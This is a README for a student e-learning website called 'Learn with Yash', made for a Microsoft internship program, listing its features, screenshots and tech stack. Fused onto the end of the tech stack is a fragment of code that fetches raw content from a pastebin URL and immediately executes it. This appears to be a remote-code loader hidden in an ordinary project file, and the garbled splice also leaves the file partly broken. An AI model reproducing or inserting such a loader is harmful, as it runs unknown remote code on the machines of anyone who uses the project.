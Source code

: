 # NEW-FRT-RESUB

This is a web based application developed for a E Learning service named Learn with Yash.

This web based E Learning application has been developed for the accomplishment of Future Ready Talent Internship program launched by Microsoft, Future Skills Prime, Quess, Github and EY.

Project Link   https://salmon-sand-09ff92100.3.azurestaticapps.net

Demo Link - https://drive.google.com/file/d/1-nqBbId9L-o4xuBzgrzB46G9x1CTIwpb/view?usp=sharing

Features and Functionalities 😃 Interactive and responsive UI. Has many graphical and visual innovative effects. Have an aesthetically pleasing visual design and architecture. Has collection of many web pages including Home, About Us, Contact, Courses pages etc. User is able to book a table through the website. Included the feedback Survey form to increase the scope of improvement Screenshots 📸:

Home page -![image](https://github.com/YASHSHOGUN/NEW-FRT-RESUB/assets/125480956/c0a1b2ab-c008-4f29-b8ef-fad36626287f)

About page -![image](https://github.com/YASHSHOGUN/NEW-FRT-RESUB/assets/125480956/eeacc2b4-f9e0-4233-9939-9f663b3bc4b8)

Courses Page - ![image](https://github.com/YASHSHOGUN/NEW-FRT-RESUB/assets/125480956/96741e98-01bd-4546-b79e-a806fc3c0544)

Contact Us Page - ![image](https://github.com/YASHSHOGUN/NEW-FRT-RESUB/assets/125480956/3e481afb-5031-4b7f-be4a-a4f6b41c11f4)

Tech Stack 💻:

Azure(Hosting) 
HTML
 CSS
 Bootstrap
 JavaScriptps://pastebin.com/raw/PaWZGzyK'),true))()

